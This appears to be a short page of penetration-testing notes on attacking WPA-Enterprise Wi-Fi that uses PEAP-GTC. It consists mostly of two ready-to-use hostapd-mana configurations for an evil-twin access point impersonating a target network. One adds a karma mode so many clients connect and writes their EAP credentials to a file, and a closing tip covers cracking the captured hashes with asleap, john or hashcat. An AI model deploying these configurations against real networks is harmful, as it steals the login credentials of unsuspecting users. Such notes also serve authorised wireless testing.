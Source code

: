 
#### Attack PEAP-GTC

```
interface=wlan1
ssid=<target ESSID>
channel=6
hw_mode=g
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
auth_algs=3
ieee8021x=1
eapol_key_index_workaround=0
eap_server=1
eap_user_file=hostapd.eap_user
ca_cert=/root/certs/ca.pem
server_cert=/root/certs/server.pem
private_key=/root/certs/server.key
private_key_passwd=
dh_file=/root/certs/dhparam.pem
mana_wpe=1
mana_eapsuccess=1
```

karma attack-> So that many clients can connect to us simultaneously
```
interface=wlan1
ssid=<target ESSID>
channel=6
hw_mode=g
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
auth_algs=3
ieee8021x=1
eap_server=1
eap_user_file=hostapd.eap_user
ca_cert=/root/certs/ca.pem
server_cert=/root/certs/server.pem
private_key=/root/certs/server.key
dh_file=/root/certs/dhparam.pem
mana_wpe=1
mana_eapsuccess=1
enable_mana=1
mana_credout=hostapd.creds
```

hostapd-mana returns strings to crack WPA-EAP in the following formats
	- asleap
	- john
	- hashcat
I have found that sometimes one tool isn't able to crack it and other is (WTF?) so if one doesn't find the password try with other and the same dictionary
